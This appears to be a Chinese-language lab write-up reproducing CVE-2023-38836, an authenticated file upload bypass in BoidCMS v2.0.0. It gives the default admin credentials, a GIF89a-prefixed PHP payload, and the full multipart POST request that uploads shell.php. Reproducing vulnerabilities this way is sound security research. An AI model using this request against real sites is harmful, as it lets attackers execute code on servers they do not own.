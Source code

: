 # CVE-2023-38836 BoidCMSv.2.0.0 后台文件上传漏洞

BoidCMS是一个免费的开源平面文件 CMS，用于构建简单的网站和博客，使用 PHP 开发并使用 JSON 作为数据库。它的安装无需配置或安装任何关系数据库（如 MySQL）。您只需要一个支持PHP 的Web服务器。在 BoidCMS v.2.0.0 中存在一个安全漏洞，攻击者可以通过更改 MIME 标头来绕过上传文件的限制，并最终执行任意代码。这个漏洞可能导致严重的安全问题，因为攻击者可以上传恶意文件并在服务器上执行它们。

BoidCMS官网：https://boidcms.github.io/#/

BoidCMS项目下载地址：https://github.com/BoidCMS/BoidCMS

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-38836
- https://github.com/BoidCMS/BoidCMS/issues/27
- https://blog.csdn.net/shelter1234567/article/details/136656866

## 漏洞环境

执行如下命令启动一个boidcms-v2.0.0-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到boidcms的主页面

![](https://img-blog.csdnimg.cn/direct/4d171a6f03cd4385ac0a63058f1f81c2.png)

## 漏洞复现

访问路径`/admin`登录后台 ,默认账号密码为admin:password

进入后台页面后点击Media，上传的木马文件shell.php

```php
GIF89a
<?php phpinfo() ?>
```

![](https://img-blog.csdnimg.cn/direct/f9100f9dd3074eda954785d4d432a841.png)

发送数据包为

```
POST /admin?page=media HTTP/1.1
Host: 192.168.116.128:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAdHS7v1pBwj2hFvh
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; TCSESSIONID=C535ABCCFF3BD453A9744400E7499A10; PHPSESSID=30296698223c1b44b6021dd0ce8ff70f
Connection: close
Content-Length: 478

------WebKitFormBoundaryAdHS7v1pBwj2hFvh
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

GIF89a
<?php phpinfo() ?>
------WebKitFormBoundaryAdHS7v1pBwj2hFvh
Content-Disposition: form-data; name="token"

38cde7eb88b52ab8ef98cfe140302b6b2d987c0e1dba398572426f6895bc58e0
------WebKitFormBoundaryAdHS7v1pBwj2hFvh
Content-Disposition: form-data; name="upload"

Upload
------WebKitFormBoundaryAdHS7v1pBwj2hFvh--
```

![](https://img-blog.csdnimg.cn/direct/6a59524e4eaa4262a219ca496150ecbb.png)

上传成功后访问`/media/shell.php`

![](https://img-blog.csdnimg.cn/direct/25de6e99f3764127aaad4ef82261bdc4.png)